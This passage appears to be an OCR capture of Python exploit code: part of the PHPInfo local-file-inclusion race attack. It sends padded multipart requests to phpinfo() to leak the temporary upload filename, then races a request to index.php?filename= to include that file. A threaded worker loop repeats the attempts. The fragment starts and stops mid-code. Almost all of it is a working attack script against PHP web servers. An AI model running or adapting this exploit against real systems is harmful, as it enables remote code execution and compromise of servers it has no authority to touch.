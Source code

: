 ```python
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /index.php?filename=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

```